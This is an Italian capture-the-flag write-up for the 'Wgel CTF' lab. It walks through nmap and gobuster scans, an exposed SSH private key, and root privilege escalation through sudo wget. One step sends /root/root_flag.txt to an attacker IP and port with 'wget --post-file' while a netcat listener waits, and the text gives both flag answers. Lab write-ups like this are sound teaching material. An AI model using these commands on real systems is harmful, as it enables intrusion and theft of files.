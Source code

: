 # Wgel CTF

_Difficoltà: Easy_

_________

# Task 1 - Wgel CTF

- sudo nmap -sS -sVC -Pn -p0- -A --open -T5 -vvv wgel.thm

![Screenshot_2023-10-09_22-07-59](https://github.com/Manganaccio/Manganaccio/assets/137283468/2a524a00-10df-40f8-8846-0667bc402fe5)

- essendo aperta la porta 80 si può visitare la pagina web, una volta visitata esaminare il codice sorgente della stessa

![Screenshot_2023-10-09_22-11-06](https://github.com/Manganaccio/Manganaccio/assets/137283468/79b5a617-4280-4f9a-ba32-5b51d673ad14)

- viene fornito un possibile username
- facciamo uno scan delle directories con gobuster

- gobuster dir -u http://wgel.thm -w /usr/share/wordlists/dirb/big.txt  --no-error -t 200

![3](https://github.com/Manganaccio/Manganaccio/assets/137283468/b03ed948-1796-4a67-b98a-8e7f2207701b)

- utilizziamo nuovamente gobuster per trovare ulteriori directories

- gobuster dir -u http://wgel.thm/sitemap -w /usr/share/wordlists/dirb/big.txt  --no-error -t 200 -x php,html

![4](https://github.com/Manganaccio/Manganaccio/assets/137283468/fa5a9ca9-ecde-44db-9eba-52ed7e9d9972)

- si noti tra le nuove directories ".ssh", accedendo troviamo un file denominato _id_rsa_ utile per fare l'accesso tramite SSH
- salviamo il contenuto in un file di testo e settiamo i permessi tramite il comando _chmod 600 id_rsa_
- facciamo l'accesso al servizio SSH con il nome utente trovato in precedenza eseguendo il seguente comando
- ssh jessie@wgel.thm -i id_rsa

# User flag

- una volta eseguito l'accesso nella directory Documents troviamo la prima flag

      Answer: 057c67131c3d5e42dd5cd3075b198ff6

# Root flag

- digitando il comando _sudo -l_ non ci viene richiesta la password dell'utente e ci viene fornita un'informazione utile per eseguire privilege escalation

![5](https://github.com/Manganaccio/Manganaccio/assets/137283468/344cbadb-4511-416c-b5b5-10aeb47c1f2c)

- navighiamo ora su GTFOBins e alla pagina _wget_ all'indicazione _File upload_ ci vengono forniti i comandi da eseguire sul terminale
- apriamo quindi una connessione nc sulla macchina attaccante e contemporaneamente ottenuto su GTFOBins
- eseguire sulla macchina vittima il comando _sudo /usr/bin/wget --post-file=/root/root_flag.txt http://'NOSTRO-IP':'PORTA'_ e contemporaneamente apriamo una connessione nc sulla macchina attaccante

![6](https://github.com/Manganaccio/Manganaccio/assets/137283468/03b8e818-f657-47e4-ad0c-c26216f39a77)

![7](https://github.com/Manganaccio/Manganaccio/assets/137283468/0df03445-046f-41b1-9d90-98dbb5d1ac5c)


      Answer: b1b968b37519ad1daa6408188649263d
